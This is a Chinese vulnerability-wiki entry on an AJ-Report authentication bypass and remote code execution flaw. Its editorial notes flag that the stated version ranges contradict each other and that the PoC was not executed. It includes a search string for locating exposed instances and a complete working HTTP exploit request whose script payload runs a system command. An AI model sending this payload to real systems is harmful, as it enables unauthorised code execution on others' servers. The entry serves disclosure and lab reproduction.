

# AJ-Report 路径鉴权绕过及脚本执行

## 条目说明

- 对象与具体问题：AJ-Report；路径鉴权绕过及脚本执行
- 版本、配置及部署条件：描述<=1.4.0且靶场1.4.0，范围却<1.4.0冲突
- 认证与权限前提：分号swagger-ui路径绕过声明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 影响版本边界内部自相矛盾必须官方裁定
- 两阶段机制应记录路径绕过与validationRules脚本执行条件
- 有上游issue/研究来源但无修复章；Vulhub启动缺工作目录/配置链接

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

AJ-Report 是全开源的一个 BI 平台。在其 1.4.0 版本及以前，存在一处认证绕过漏洞，攻击者利用该漏洞可以绕过权限校验并执行任意代码。

参考链接：

- https://xz.aliyun.com/t/14460
- https://gitee.com/anji-plus/report/issues/I9HCB2
- https://github.com/wy876/POC/blob/main/AJ-Report%E5%BC%80%E6%BA%90%E6%95%B0%E6%8D%AE%E5%A4%A7%E5%B1%8F%E5%AD%98%E5%9C%A8%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.md

### 漏洞影响

```
version < v1.4.0
```

### 网络测绘

```
title="AJ-Report"
```

### 环境搭建

Vulhub 执行如下命令启动一个 AJ-Report 1.4.0 服务器：

```
docker compose up -d
```

服务启动后，可以在`http://your-ip:9095`查看到登录页面。


### 漏洞复现

发送如下数据包：

```http
POST /dataSetParam/verification;swagger-ui/ HTTP/1.1
Host: your-vps-ip:9095
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en
Content-Type: application/json;charset=UTF-8
Connection: close

{"ParamName":"","paramDesc":"","paramType":"","sampleItem":"1","mandatory":true,"requiredFlag":1,"validationRules":"function verification(data){a = new java.lang.ProcessBuilder(\"id\").start().getInputStream();r=new java.io.BufferedReader(new java.io.InputStreamReader(a));ss='';while((line = r.readLine()) != null){ss+=line};return ss;}"}
```

> 请求长度说明：原资料 Content-Length 为 339；静态长度已移除，应由客户端根据最终请求体的字节数生成。

可见，`id` 命令已经执行成功：




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
